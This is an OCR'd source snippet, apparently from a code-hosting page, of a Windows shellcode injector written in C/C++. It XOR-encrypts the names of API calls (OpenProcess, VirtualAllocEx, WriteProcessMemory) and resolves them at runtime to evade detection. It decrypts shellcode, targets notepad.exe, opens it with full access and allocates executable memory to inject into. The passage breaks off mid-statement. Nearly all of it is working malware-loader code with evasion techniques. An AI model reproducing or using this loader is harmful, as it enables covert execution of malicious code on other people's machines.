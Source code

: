 ```c
	unsigned char RtlMoveMemoryEncrypted[] = { 0x3B, 0xC2, 0xA2, 0x6E, 0x4B, 0x7E, 0x8F, 0x2E, 0x05, 0xF2, 0xCC, 0xF6, 0x73, 0x12 };
	XOR(RtlMoveMemoryEncrypted, sizeof(RtlMoveMemoryEncrypted), key, key_len);
	auto const pRtlMoveMemory = reinterpret_cast<VOID(WINAPI*)(VOID UNALIGNED * destination, VOID UNALIGNED * source, SIZE_T  length)>(
		GetProcAddress(hKernel32, (LPCSTR)RtlMoveMemoryEncrypted)
		);
	pRtlMoveMemory(exec_mem, shellcode, shellcode_len);

	XOR((unsigned char*)exec_mem, shellcode_len, key, key_len);

	wchar_t process_name[MAX_PATH] = L"notepad.exe";
	int pid = findMyProc(process_name);

	/* Declaring some variables that will store memaddresses */
	LPVOID lpBufferAddress = NULL; // Pointer to void to store the address of the reserved buffer
	DWORD lpflOldProtect = NULL;
	SIZE_T lpNumberOfBytesWritten = NULL;
	HANDLE hOpenProcess = NULL;

	// Get a handle to the process ID
	printf("Executing OpenProcess to get a handle of process with PID (%ld)\n", pid);
	unsigned char OpenProcessEncrypted[] = { 0x26, 0xC6, 0xAB, 0x4D, 0x74, 0x7A, 0x85, 0x00, 0x05, 0xEC, 0xD0, 0x84 };
	XOR(OpenProcessEncrypted, sizeof(OpenProcessEncrypted), key, key_len);
	auto const pOpenProcess = reinterpret_cast<HANDLE(WINAPI*)(DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId)>(
		GetProcAddress(hKernel32, (LPCSTR)OpenProcessEncrypted)
		);
	hOpenProcess = pOpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);

	// If the function fails, the return value is NULL.
	if (hOpenProcess == NULL) {
		printf("Could not get a handle to PID (%ld). Error code %ld", pid, GetLastError());
		return EXIT_FAILURE;
	}

	printf("Got a handle to PID (%ld). Address of handle: 0x%p\n", pid, hOpenProcess); // With %p we get the memaddress of the handle

	unsigned char VirtualAllocExEncrypted[] = { 0x3F, 0xDF, 0xBC, 0x57, 0x51, 0x69, 0x86, 0x22, 0x0C, 0xF3, 0xCC, 0xE7, 0x4F, 0x6A, 0xAB };
	XOR(VirtualAllocExEncrypted, sizeof(VirtualAllocExEncrypted), key, key_len);
	auto const pVirtualAllocEx = reinterpret_cast<LPVOID(WINAPI*)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect)>(
		GetProcAddress(hKernel32, (LPCSTR)VirtualAllocExEncrypted)
		);
	lpBufferAddress = pVirtualAllocEx(hOpenProcess, NULL, shellcode_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE); // We reserve AND commit. For that, use |
	// Remember closing the handle with CloseHandle once the handle is used.
	if (lpBufferAddress == NULL) {
		printf("Memory could not be allocated. Exiting...");
		return EXIT_FAILURE;
	}

	printf("Got a memory zone starting at 0x%p\n", lpBufferAddress);

	unsigned char WriteProcessMemoryEncrypted[] = { 0x3E, 0xC4, 0xA7, 0x57, 0x41, 0x58, 0x98, 0x0C, 0x03, 0xFA, 0xD0, 0xF7, 0x47, 0x77, 0xC6, 0xE7, 0xEE, 0xC7, 0x23 };
	XOR(WriteProcessMemoryEncrypted, sizeof(WriteProcessMemoryEncrypted), key, key_len);
	// We copy the buffer to the buffer as it is writable with WriteProcessMemory
	auto const pWriteProcessMemory = reinterpret_cast<BOOL(WINAPI*)(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T * lpNumberOfBytesWritten)>(
```